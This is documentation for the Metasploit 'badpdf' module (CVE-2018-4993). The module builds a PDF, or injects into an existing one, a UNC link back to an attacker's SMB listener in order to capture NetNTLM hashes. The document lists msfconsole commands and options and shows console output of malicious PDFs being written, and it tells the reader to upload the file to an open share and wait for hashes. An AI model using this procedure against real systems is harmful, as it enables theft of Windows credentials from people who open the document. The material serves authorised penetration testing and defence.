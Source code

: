 This module will either create a blank pdf document which contains a UNC link which will connect back to LHOST if file FILENAME options is used 
or if PDFINJECT option is used will try and inject the necessary UNC code into an existing PDF document.

## Vulnerable Application

Various PDF Readers. 
Note Adobe released the patch APSB18-09 to prevent this and
FoxIT after version 9.1 is no longer vulnerable.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/badpdf```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename.
This can be changed using set FILENAME test.pdf

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25

**PDFINJECT**
This option allows you to inject the UNC code into an existing PDF document
This can be changed using set PDFINJECT /path/to/file/pdf.pdf

## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(fileformat/badpdf) > show info

       Name: BADPDF Malicious PDF Creator
     Module: auxiliary/fileformat/badpdf
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  CheckPoint researchers - Assaf Baharav, Yaron Fruchtmann, Ido Solomon

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        Filename
  LHOST                       yes       Host listening for incoming SMB/WebDAV traffic
  PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into

Description:
  This module can either creates a blank PDF file which contains a UNC 
  link which can be used to capture NetNTLM credentials, or if the 
  PDFINJECT option is used it will inject the necessary code into an 
  existing PDF document if possible.

References:
  https://cvedetails.com/cve/CVE-2018-4993/
  https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/

msf auxiliary(fileformat/badpdf) > 

msf auxiliary(fileformat/badpdf) > set filename test.pdf
filename => test.pdf
msf auxiliary(fileformat/badpdf) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf auxiliary(fileformat/badpdf) > exploit

[+] test.pdf stored at /root/.msf4/local/test.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > set filename ""
filename => 
msf auxiliary(fileformat/badpdf) > set pdfinject /root/Desktop/example.pdf
pdfinject => /root/Desktop/example.pdf
msf auxiliary(fileformat/badpdf) > exploit

[+] Malicious file writen to /root/Desktop/example.pdf.malicious
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > 
 
  ```
